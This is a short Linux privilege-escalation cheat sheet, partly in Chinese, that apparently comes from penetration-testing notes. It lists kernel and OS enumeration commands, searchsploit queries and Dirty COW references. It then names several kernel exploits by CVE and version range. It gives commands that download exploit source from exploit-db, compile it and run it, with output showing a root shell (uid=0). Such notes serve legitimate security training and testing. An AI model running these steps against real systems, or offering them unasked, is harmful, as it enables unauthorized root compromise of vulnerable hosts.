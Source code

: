 * 查看OS、Architecture、Kernel 版本

```
uname -a
cat /proc/version
cat /etc/issue
```

* search exploit

```
site:exploit-db.com kernel version
python linprivchecker.py extended

searchsploit ubuntu 11.10
searchsploit linux kernel | grep -v dos | grep ' 3\.' | grep -i 'root\|privilege\|exploit'
```
### dirtycow
+ dirtycow kernel, [dirtycow.github](https://github.com/dirtycow/dirtycow.github.io/wiki/Patched-Kernel-Versions)
+ dirtycow exp, [dirtycow poc](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)
+ Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8; 
+ dirty ninja, https://dirtycow.ninja/
+ First existed on 2.6.22 (released in 2007) and was fixed on Oct 18, 2016

### 常用exp
+ CVE-2010-2959/14814, 'CAN BCM' Privilege Escalation - Linux Kernel < 2.6.36-rc1 (Ubuntu 10.04 / 2.6.32)
+ CVE-2010-3904/15285, Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8
+ CVE-2012-0056/18411, Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64); [exp](https://git.zx2c4.com/CVE-2012-0056/about/)


```
# 14814
wget -O i-can-haz-modharden.c http://www.exploit-db.com/download/14814
$ gcc i-can-haz-modharden.c -o i-can-haz-modharden
$ ./i-can-haz-modharden
[+] launching root shell!
# id
uid=0(root) gid=0(root)

# 18411
wget -O exploit.c http://www.exploit-db.com/download/18411
gcc -o mempodipper exploit.c
./mempodipper
```

## root grogram
webserver、database等，root运行，通过web、db服务运行root

```
ps aux

```
